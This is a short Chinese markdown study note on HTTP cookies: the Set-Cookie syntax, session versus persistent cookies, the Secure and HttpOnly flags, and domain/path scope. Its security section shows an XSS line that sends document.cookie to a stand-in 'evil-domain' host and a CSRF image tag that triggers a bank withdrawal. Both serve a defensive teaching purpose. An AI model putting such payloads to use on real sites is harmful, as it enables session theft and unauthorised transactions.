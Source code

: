 ## cookie 和 session知识图谱


## 生成cookie

服务端header头格式

```bash
	Set-Cookie: <cookie-name>=<cookie-value>
```

## cookie分类

1. Session cookies【会话层cookie】

```bash
	Set-Cookie: <cookie-name>=<cookie-value>
```

如果不添加任何的指令(directive)的话，cookie的有效期仅仅在浏览器(或者页面)未关闭生效。

2. 持久cookie

采用`Expires`或者`Max-Age`来控制cookie有效时间。

`Expires`使用`HTTP-date timestamp`来标示，一般是UTC或者GMT时间格式。

```bash
	Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

3. Secure and HttpOnly cookies

一个secure的cookie只有当网站采用SSL和https协议的时候，客户端才会发送。
在chrome和火狐52版本后，如果网站不设置为https，`set-cookie`将不能使用`secure`指令.

为了避免XSS攻击，可以设置`HttpOnly`以避免js对cookie的操作。

```bash

	Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly

```

## cookie作用域

采用`domain`和`path`来定义cookie的作用域。

`domain`指令的作用域对子域名同样生效

`path`指令是指针对客户端url做cookie的过滤限制。


```bash
	# 设置path='/',如下url也会match 
	/docs
```


## cookie安全性问题

**列举如下两种情况**

1. XSS

```js
      (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;

```

2. CSRF

```html
     <img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">

```

**解决方案**

1. input输入过滤 escape

2. 敏感动作设置较短cookie过期时间(仅针对cookie)，当然这块有很多种其他做法

### 延伸阅读
[cookie指令简化版](./cookie_headers.md)

[set-cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie)

[w3.org的http协议参数规范](https://www.w3.org/Protocols/rfc2616/rfc2616-sec3.html)






















